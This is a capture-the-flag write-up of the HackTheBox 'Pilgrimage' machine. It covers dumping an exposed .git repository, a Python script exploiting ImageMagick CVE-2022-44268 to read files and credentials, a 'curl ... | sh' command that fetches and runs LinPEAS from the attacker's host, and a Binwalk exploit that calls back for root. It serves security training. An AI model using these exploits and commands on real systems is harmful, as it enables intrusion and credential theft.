 ```yaml
---
title: "HTB - Pilgrimage"
date: "11/10/2024"
description: "Write-up of the Pilgrimage machine on HackTheBox."
tags: ["HackTheBox"]
image: "https://www.it-connect.fr/wp-content-itc/uploads/2023/11/Pilgrimage-800x606.png"
readingTime: "10"
---
```


![preview](https://www.it-connect.fr/wp-content-itc/uploads/2023/11/Pilgrimage-800x606.png)

## Initial Setup

Update your `/etc/hosts` with the entry for `pilgrimage.htb`.

## Initial Reconnaissance

Start a scan with [AutoRecon](https://github.com/Tib3rius/AutoRecon).

```bash
autorecon pilgrimage.htb -v
```

From the `tcp_80_http_feroxbuster_dirbuster` output, we notice that a `.git` repository is present.

## Web Vulnerability Exploration

To exploit the `.git` repository and pull more information, install and run `git-dumper`.

```bash
pip install git-dumper
```

```bash
~/.local/bin/git-dumper http://pilgrimage.htb/.git/ git
```

From the extracted files, an executable named `magick` is spotted. When running this executable with the `-version` argument:

```bash
./magick -version
```

We find out that the software version is `ImageMagick 7.1.0-49`. A quick search reveals a vulnerability for this version: [CVE Details](https://github.com/voidz0r/CVE-2022-44268).

Clone the repository related to the CVE and proceed.

```bash
git clone https://github.com/voidz0r/CVE-2022-44268
```

I also made a Python script to make the process easier: 
```python
import re
import sys
import requests
import subprocess
import argparse
from urllib.parse import urlparse, parse_qs

def extract_hex_data(data):
    regex_pattern = r"^([0-9a-fA-F]+\n)+$"
    match = re.search(regex_pattern, data, re.MULTILINE)
    return match.group(0) if match else None

def download_image_from_url(url):
    response = requests.get(url, stream=True)
    with open('output.png', 'wb') as file:
        for chunk in response.iter_content(chunk_size=8192): 
            file.write(chunk)

def run_cargo(arg):
    command = ["cargo", "run", arg]
    subprocess.run(command, stdout=subprocess.DEVNULL)

def convert_image_and_upload():
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
    }

    with open('image.png', 'rb') as f:
        files = {'toConvert': ('image.png', f, 'image/png')}
        response = requests.post(BASE_URL, headers=headers, files=files)
        parsed_url = urlparse(response.url)
        params = parse_qs(parsed_url.query)
        return params['message'][0]

def identify_image():
    command = ["./magick", "identify", "-verbose", "output.png"]
    result = subprocess.run(command, capture_output=True, text=True)
    return result.stdout

def main():

    parser = argparse.ArgumentParser(description="Process and send an image to a server.")
    parser.add_argument('-i', '--input_arg', help='Argument for the cargo command.')
    parser.add_argument('-u', '--url', default="http://pilgrimage.htb/", help='Base URL for the service. Default: http://pilgrimage.htb/')

    args = parser.parse_args()
    arg = args.input_arg
    global BASE_URL
    BASE_URL = args.url

    # Run the cargo command
    run_cargo(arg)
    
    # Convert the image and upload
    image_url = convert_image_and_upload()
    
    # Download the image from the returned URL
    download_image_from_url(image_url)

    # Identify the image
    data = identify_image()
    result = extract_hex_data(data)
    
    if result:
        print(bytes.fromhex(result))
    else:
        print("No sequence found.")

if __name__ == "__main__":
    main()
```

Test the PoC command with the following:

```bash
python auto_pilgrim.py -i "/etc/passwd"
```

Revert back to the folder extracted from the git dump. After analyzing the files, we notice that it tries to fetch database credentials from `/var/db/pilgrimage` as seen in `dashboard.php`.

```bash
python auto_pilgrim.py -i "/var/db/pilgrimage"
```

This command returns the password for the user Emily.

## Privilege Escalation

Pn your own machine, download LinPEAS for further enumeration:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest
```

Start a local web server:

```bash
sudo python3 -m http.server 80
```

Use the fetched password to SSH as Emily.

```bash
ssh emily@[BOX_IP]
```

And from Emily's shell:

```bash
curl http://[YOUR_IP]/linpeas.sh | sh
```

LinPEAS points to `user.txt` for the first flag and also highlights an interesting process: `/usr/sbin/malwarescan.sh`.
On reading the shell script:

```bash
cat /usr/sbin/malwarescan.sh
```

We find out it uses `binwalk`, especially `Binwalk v2.3.2` that is vulnerable as showcased by [this exploit](https://www.exploit-db.com/exploits/51249).

Use the exploit script with a random image:

```bash
python exploit.py random_image.png [YOUR_IP] [YOUR_PORT]
```

Start a Python webserver so that we can download the image from Emily's shell :

```bash
sudo python3 -m http.server 80
```

On Emily's shell, fetch the image:

```bash
wget http://[YOUR_IP]/binwalk_exploit.png
```

Once malwarescan.sh triggers the exploit, verify that you are root:

```bash
whoami
```
Now find and display the root flag:

```bash
find / -type f -name root.txt 2>/dev/null 
cat /root/root.txt
```

Happy rooting :-)